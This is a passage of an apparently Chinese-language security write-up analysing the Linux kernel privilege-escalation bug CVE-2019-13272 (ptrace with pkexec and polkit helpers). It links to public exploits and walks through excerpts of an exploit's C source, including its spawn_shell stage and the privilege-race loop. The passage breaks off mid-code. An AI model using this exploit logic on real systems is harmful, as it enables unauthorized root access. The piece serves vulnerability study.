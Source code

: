 [pkexec](http://manpages.ubuntu.com/manpages/trusty/man1/pkexec.1.html) 允许特权用户以其他用户权限执行另外一个可执行程序， 用于 [polkit](https://wiki.archlinux.org/index.php/Polkit) 认证框架, 当使用 —user 参数时， 刚好可以让进程先提权到 root 然后再降权到指定用户，因此可以用于构建进程 B, 此外需要找到通过 polkit 框架执行的可执行程序(jann horn 把他们成为 helper)， 这些 helper 程序需要满足普通用户用 pkexec 执行它们时不需要认证（很多通过 polkit 执行的程序都需要弹窗认证）, 执行的模式如下:
- /usr/bin/pkexec —user nonrootuser /user/sbin/some-helper-binary
[bcoles 的 exploit](https://github.com/bcoles/kernel-exploits/blob/master/CVE-2019-13272/poc.c) 在 jann horn 的基础上增加了寻找更多 helper binary 的代码， 因为 jann horn 的 helper 是一个写死的程序， 在很多发行版并不存在，所以他的 exploit 在很多发行版系统上无法运行， bcoles 的 exploit 可以在更多的发行版上运行成功

本人出于学习的目的，也写了一份 [jiayy 的 exploit](https://github.com/jiayy/android_vuln_poc-exp/tree/master/EXP-CVE-2019-13272), 因为 helper binary 因不同发行版而异， pkexec 也是桌面发行版才有， 而事实上这个提权漏洞是 linux kernel 的漏洞， 所以我把 jann horn 的 exploit 改成了使用一个 fakepkexec 程序来提权， 而这个 fakepkexec 和 fakehelper 程序手动生成（而不是从目标系统搜索），这样一来学习者可以在任何存在本漏洞的 linux 系统（不需要桌面）运行我的 exploit 进行研究



## exploit 分析

下面简单过一下 exploit 的代码

```
167 int main(int argc, char **argv) `{`
168   if (strcmp(argv[0], "stage2") == 0)
169     return middle_stage2();
170   if (strcmp(argv[0], "stage3") == 0)
171     return spawn_shell();
172 
173   helper_path = "/tmp/fakehelper";
174 
175   /*
176    * set up a pipe such that the next write to it will block: packet mode,
177    * limited to one packet
178    */
179   SAFE(pipe2(block_pipe, O_CLOEXEC|O_DIRECT));
180   SAFE(fcntl(block_pipe[0], F_SETPIPE_SZ, 0x1000));
181   char dummy = 0;
182   SAFE(write(block_pipe[1], &amp;dummy, 1));
183 
184   /* spawn pkexec in a child, and continue here once our child is in execve() */
185   static char middle_stack[1024*1024];
186   pid_t midpid = SAFE(clone(middle_main, middle_stack+sizeof(middle_stack),
187                             CLONE_VM|CLONE_VFORK|SIGCHLD, NULL));
188   if (!middle_success) return 1;
189 
======================= skip =======================
215 `}`
```

先看行 186, 调用 clone 生成子进程（也就是 task B）, task B 运行 middle_main

```
64 static int middle_main(void *dummy) `{`
 65   prctl(PR_SET_PDEATHSIG, SIGKILL);
 66   pid_t middle = getpid();
 67 
 68   self_fd = SAFE(open("/proc/self/exe", O_RDONLY));
 69 
 70   pid_t child = SAFE(fork());
 71   if (child == 0) `{`
 72     prctl(PR_SET_PDEATHSIG, SIGKILL);
 73 
 74     SAFE(dup2(self_fd, 42));
 75 
 76     /* spin until our parent becomes privileged (have to be fast here) */
 77     int proc_fd = SAFE(open(tprintf("/proc/%d/status", middle), O_RDONLY));
 78     char *needle = tprintf("nUid:t%dt0t", getuid());
 79     while (1) `{`
```